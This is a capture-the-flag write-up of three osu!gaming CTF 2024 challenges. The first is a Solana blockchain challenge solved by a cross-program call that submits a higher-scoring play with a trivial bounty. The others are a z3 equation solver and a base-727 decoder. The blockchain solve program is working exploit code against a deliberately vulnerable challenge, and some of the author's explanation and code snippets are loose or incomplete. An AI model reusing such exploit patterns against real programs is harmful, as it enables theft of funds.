


These are my writeups for [osu!gaming CTF 2024](https://ctftime.org/event/2165).

### blockchain/scorechain
> Snipe mr nathan on osu and claim the bounty in the very secure blockchain bancho!
> `nc chal2.osugaming.lol 8000`  
> — <cite>Triacontakai</cite>

This problem was my first time working with blockchain problems. I was provided the file [dist.zip](dist.zip), where it was a Rust Solana blockchain problem.

Initially looking at the [dist.zip](dist.zip), this is the directory of the challenge

```shell
(base) rose@catputer scorechain % tree .
.
├── README.md
├── framework
│   ├── Cargo.lock
│   ├── Cargo.toml
│   ├── Dockerfile
│   ├── build_challenge.sh
│   ├── chall
│   │   ├── Anchor.toml
│   │   ├── Cargo.lock
│   │   ├── Cargo.toml
│   │   ├── migrations
│   │   │   └── deploy.ts
│   │   ├── package.json
│   │   ├── programs
│   │   │   └── chall
│   │   │       ├── Cargo.toml
│   │   │       ├── Xargo.toml
│   │   │       └── src
│   │   │           └── lib.rs
│   │   ├── tests
│   │   │   └── chall.ts
│   │   ├── tsconfig.json
│   │   └── yarn.lock
│   └── src
│       └── main.rs
└── framework-solve
    ├── Cargo.lock
    ├── Cargo.toml
    ├── build_solution.sh
    ├── solve
    │   ├── Anchor.toml
    │   ├── Cargo.lock
    │   ├── Cargo.toml
    │   ├── migrations
    │   │   └── deploy.ts
    │   ├── package.json
    │   ├── programs
    │   │   └── solve
    │   │       ├── Cargo.toml
    │   │       ├── Xargo.toml
    │   │       └── src
    │   │           └── lib.rs
    │   ├── tests
    │   │   └── solve.ts
    │   ├── tsconfig.json
    │   └── yarn.lock
    └── src
        └── main.rs

17 directories, 32 files
```

After reading the README.md, we are aware that we should
```
Use `framework/` to locally setup the challenge
Use `framework-solve/` to solve the challenge locally and remotely
```

First, we take a look at the framework folder.

If we take a look at framework/src/main.rs, we can see 

```rust
use chall::Play;
use chall::anchor_lang::InstructionData;
use chall::anchor_lang::ToAccountMetas;

use std::env;
use std::io::Write;

use sol_ctf_framework::ChallengeBuilder;

use solana_sdk::compute_budget::ComputeBudgetInstruction;

use solana_program::instruction::Instruction;
use solana_program::system_instruction;
use solana_program_test::tokio;
use solana_sdk::pubkey::Pubkey;
use solana_sdk::signature::Signer;
use solana_sdk::signer::keypair::Keypair;
use std::error::Error;

use std::net::{TcpListener, TcpStream};

#[tokio::main]
async fn main() -> Result<(), Box<dyn Error>> {
    let listener = TcpListener::bind("0.0.0.0:1337")?;

    println!("starting server at port 1337!");

    for stream in listener.incoming() {
        let stream = stream.unwrap();

        tokio::spawn(async {
            if let Err(err) = handle_connection(stream).await {
                println!("error: {:?}", err);
            }
        });
    }
    Ok(())
}

async fn handle_connection(mut socket: TcpStream) -> Result<(), Box<dyn Error>> {
    let mut builder = ChallengeBuilder::try_from(socket.try_clone().unwrap()).unwrap();

    let chall_id = builder.add_program("./chall/target/deploy/chall.so", Some(chall::ID));
    let solve_id = builder.input_program()?;

    let mut chall = builder.build().await;

    // -------------------------------------------------------------------------
    // [setup env] initialize
    // -------------------------------------------------------------------------
    let program_id = chall_id;

    // admin has infinite money wauw
    let admin_keypair = chall.ctx.payer.insecure_clone();
    let admin = admin_keypair.pubkey();

    let (db, _) = Pubkey::find_program_address(&[ b"wysi" ], &program_id);

    let player_keypair = Keypair::new();
    let player = player_keypair.pubkey();

    let cookiezi_keypair = Keypair::new();
    let cookiezi = cookiezi_keypair.pubkey();

    chall
        .run_ix(system_instruction::transfer(
            &admin,
            &cookiezi,
            500_000_000_000_000,
        ))
        .await?;

    // ur poor :^c
    chall
        .run_ix(system_instruction::transfer(&admin, &player, 100_000_000))
        .await?;

    println!("\nNon-PDA Accounts created...\n");

    let ix = chall::instruction::InitDb {};
    let ix_accounts = chall::accounts::InitDb {
        db,
        user: admin,
        system_program: solana_program::system_program::ID,
        rent: solana_program::sysvar::rent::ID,
    };
    chall
        .run_ixs_full(
            &[Instruction::new_with_bytes(
                program_id,
                &ix.data(),
                ix_accounts.to_account_metas(None)
            )],
            &[&admin_keypair],
            &admin,
        ).await?;

    let ix = chall::instruction::SubmitPlay {
        play: Play {
            map: String::from("blue zenith"),
            player: String::from("chocomint"),
            pp: 727,
            bounty: 1_000_000_000_000,
        },
    };
    let ix_accounts = chall::accounts::SubmitPlay {
        db,
        player: cookiezi,
        system_program: solana_program::system_program::ID,
    };
    chall
        .run_ixs_full(
            &[Instruction::new_with_bytes(
                program_id,
                &ix.data(),
                ix_accounts.to_account_metas(None)
            )],
            &[&cookiezi_keypair],
            &cookiezi,
        ).await?;

    writeln!(socket, "player: {}", player)?;
    writeln!(socket, "db: {}", db)?;

    // snipe shige :^)
    let bump_budget = ComputeBudgetInstruction::set_compute_unit_limit(10_000_000);
    let solve_ix = chall.read_instruction(solve_id)?;
    chall
        .run_ixs_full(&[bump_budget, solve_ix], &[&player_keypair], &player)
        .await.ok();

    let player_account = chall.ctx.banks_client.get_account(player).await?.unwrap();

    if player_account.lamports > 500_000_000_000 {
        writeln!(socket, "congrats!")?;
        if let Ok(flag) = env::var("FLAG") {
            writeln!(socket, "flag: {:?}", flag)?;
        } else {
            writeln!(socket, "flag not found, please contact admin")?;
        }
    } else {
        writeln!(socket, "shige lives to see another day")?;
    }

    Ok(())
}
```

In the above, we can see two things that happen

1. an initial setup where player "cookiezi" is given a large sum of money.
2. the server then processes a "SubmitPlay" instruction, which allows for the submission of a play that meets specific bounty amount

from looking at the above code,we are aware that we can exploit the `SubmitPlay`, as it doesn't properly validate the required conditions where bounty payout should happen, and doesn't make sure that the play submitted meets specific criteria beyond the control of the submitting player

We can write our solution code inside the provided `initialize` function in the `framework-solve/solve/programs/solve/src/lib.rs` file that is specifically for writing the solution code, where we have:

```rust
use anchor_lang::prelude::*;
use chall::Play;

declare_id!("28prS7e14Fsm97GE5ws2YpjxseFNkiA33tB5D3hLZv3t");

#[program]
pub mod solve {
    use super::*;

    pub fn initialize(ctx: Context<Initialize>) -> Result<()> {
        let cpi_accounts = chall::cpi::accounts::SubmitPlay {
            db: ctx.accounts.db.to_account_info(),
            player: ctx.accounts.user.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
        };

        let play = Play {
            // i think the map name is blue zenith
            map: "blue zenith".to_string(),
            player: "chocomint".to_string(),
            pp: 728,
            bounty: 1, // min bounty amount was 500_000_000_000_000
        };

        let cpi_program = ctx.accounts.chall.to_account_info();
        let cpi_ctx = CpiContext::new(cpi_program, cpi_accounts);

        chall::cpi::submit_play(cpi_ctx, play)?;

        Ok(())
    }
}

#[derive(Accounts)]
pub struct Initialize<'info> {
    // feel free to expand/change this as needed
    // if you change this, make sure to change framework-solve/src/main.rs accordingly
    #[account(mut)]
    pub user: Signer<'info>,

    #[account(mut)]
    pub db: AccountInfo<'info>,

    pub chall: Program<'info, chall::program::Chall>,

    pub system_program: Program<'info, System>,

    pub rent: Sysvar<'info, Rent>,
}
```

Looking closely, this is the specific code we wrote

```rust
pub fn initialize(ctx: Context<Initialize>) -> Result<()> {
        let cpi_accounts = chall::cpi::accounts::SubmitPlay {
            db: ctx.accounts.db.to_account_info(),
            player: ctx.accounts.user.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
        };

        let play = Play {
            // the map name is blue zenith
            map: "blue zenith".to_string(),
            player: "chocomint".to_string(),
            pp: 728,
            bounty: 1, // i think min bounty amount was 500_000_000_000_000 but this worked
        };

        let cpi_program = ctx.accounts.chall.to_account_info();
        let cpi_ctx = CpiContext::new(cpi_program, cpi_accounts);

        chall::cpi::submit_play(cpi_ctx, play)?;

        Ok(())
    }
```

And this works, as we can verify this locally


And after changing in `framework-solve/src/main.rs` to nc to the challenge server
```rust
fn main() -> Result<(), Box<dyn Error>> {
    let mut stream = TcpStream::connect("chal2.osugaming.lol:8000")?;
    let mut reader = BufReader::new(stream.try_clone().unwrap());

    let mut line = String::new();

    let so_data = fs::read("./solve/target/deploy/solve.so")?;
}
```



We are able to run the solve script again and we get the flag `osu{blud_think_he_mrekk}`.

### reverse/SAT-before-osu
> My mom won’t let me play osu if I don’t study for the SAT but this looks nothing like it! Please help me! T^T<br>
> — <cite>BrokenAppendix</cite>

In this challenge, we're given the below system of equations that I've put into `constraints`. This is a set of systems and equations that can be easily solved with the z3 theorem prover.

```python
from z3 import *

a, b, c, d, e, f, g, h, i, j, k, l, m, n, o, p, q, r, s, t, u, v, w, x = Ints('a b c d e f g h i j k l m n o p q r s t u v w x')

constraints = [
    b + c + w == 314,
    t + d + u == 290,
    p + w + e == 251,
    v + l + j == 274,
    a + t + b == 344,
    b + j + m == 255,
    h + o + u == 253,
    q + l + o == 316,
    a + g + j == 252,
    q + x + q == 315,  
    t + n + m == 302,
    d + b + g == 328,
    e + o + m == 246,
    v + v + u == 271,  
    f + o + q == 318,
    s + o + j == 212,
    j + j + n == 197,  
    s + u + l == 213,
    q + w + j == 228,
    i + d + r == 350,
    e + k + u == 177,
    w + n + a == 288,
    r + e + u == 212,
    q + l + f == 321
]

solver = Solver()

solver.add(constraints)

if solver.check() == sat:
    solution = solver.model()
    # convert from number decimal to ascii
    ascii_output = ''.join(chr(solution[variable].as_long()) for variable in [a, b, c, d, e, f, g, h, i, j, k, l, m, n, o, p, q, r, s, t, u, v, w, x])
    print(ascii_output)
```

The flag that we get is `osu{0rZ_p3PpY_my_s4v1oR}`

### crypto/base727


We’re given the file [727.py](727.py) along with the encoded flag `06c3abc49dc4b443ca9d65c8b0c386c4b0c99fc798c2bdc5bccb94c68c37c296ca9ac29ac790c4af7bc585c59d`.

To decrypt, we write a script that is able to decode from a base727 encoded string to text, and decrypt the encoded flag:

```python
import binascii

def decode_base_727(encoded_hex):
    encoded_bytes = binascii.unhexlify(encoded_hex)
    encoded_string = encoded_bytes.decode()

    base = 727
    decoded_value = 0
    for char in encoded_string:
        decoded_value = decoded_value * base + ord(char)
    
    original_string = ""
    while decoded_value > 0:
        original_string = chr(decoded_value % 256) + original_string
        decoded_value //= 256

    return original_string

encoded_hex = "06c3abc49dc4b443ca9d65c8b0c386c4b0c99fc798c2bdc5bccb94c68c37c296ca9ac29ac790c4af7bc585c59d"  
original_string = decode_base_727(encoded_hex)
print(original_string)
```

And we get the flag `osu{wysiwysiwysiywsywiwywsi}`
